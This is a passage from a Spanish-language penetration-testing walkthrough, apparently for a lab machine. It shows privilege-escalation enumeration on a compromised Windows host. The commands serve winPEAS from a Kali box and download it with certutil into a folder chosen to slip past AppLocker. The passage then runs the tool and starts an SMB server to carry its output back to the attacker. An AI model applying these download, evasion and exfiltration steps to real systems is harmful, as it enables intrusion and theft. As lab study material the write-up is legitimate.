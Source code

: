 Para buscar posibles vectores de escalar nuestros privilegios en la máquina víctima, decidimos hacer uso de la herramienta de `winPEAS.exe`. Este binario lo deberemos de disponer en nuestro equipo local, lo compartiremos a través de un servidor web.

```bash
❯ ls -l winPEASx64.exe
.rw-r--r-- kali kali 9.4 MB Fri Jan 17 22:00:43 2025  winPEASx64.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, procederemos a descargar el binario en una ruta que el AppLocker no lo detecte.

```powershell
PS C:\Windows\System32\spool\drivers\color> certutil.exe -f -urlcache -split http://10.10.16.5/winPEASx64.exe wPE.exe
****  Online  ****
  000000  ...
  962e00
CertUtil: -URLCache command completed successfully.
PS C:\Windows\System32\spool\drivers\color> 
```

Ejecutaremos el `winPEAS.exe` y el output lo almacenaremos en un archivo llamado `result.txt`.

```powershell
PS C:\Windows\System32\spool\drivers\color> ./wPE.exe > result.txt
PS C:\Windows\System32\spool\drivers\color> ls

    Directory: C:\Windows\System32\spool\drivers\color


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
...[snip]...                                                        
-a----        1/17/2025   1:05 PM         271602 result.txt                                                                                                   
-a----        1/17/2025   1:03 PM        9842176 wPE.exe 
```

Para compartirnos este resultado en nuestro equipo local, decidimos en levantar un servidor SMB en nuestra Kali.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```
